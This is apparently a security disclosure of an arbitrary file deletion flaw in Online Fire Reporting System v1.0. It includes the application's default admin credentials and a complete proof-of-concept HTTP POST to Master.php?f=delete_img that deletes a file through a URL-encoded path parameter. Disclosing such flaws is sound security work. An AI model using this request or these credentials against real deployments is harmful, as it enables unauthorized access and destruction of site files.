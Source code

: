 # Online Fire Reporting System v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/classes/Master.php?f=delete_img

Vulnerability location: /ofrs/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shell.php file in the root directory

```sql
POST /ofrs/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ofrs/admin/?page=system_info
Content-Length: 62
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Fofrs%2Fshell.php
```

The file path needs to be encoded by url

![image](https://user-images.githubusercontent.com/54017627/170816538-edd5be5f-8a46-4b2e-be7b-8032e81be250.png)

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the root directory of the website

![image](https://user-images.githubusercontent.com/54017627/170816553-08631f47-cbd6-412a-8025-0df39cab3668.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/170816564-0215187c-8bcc-46a6-83b9-5ecc26a0dbab.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/170816594-58dd1d0d-0ee0-4225-9c16-f67105f0055a.png)
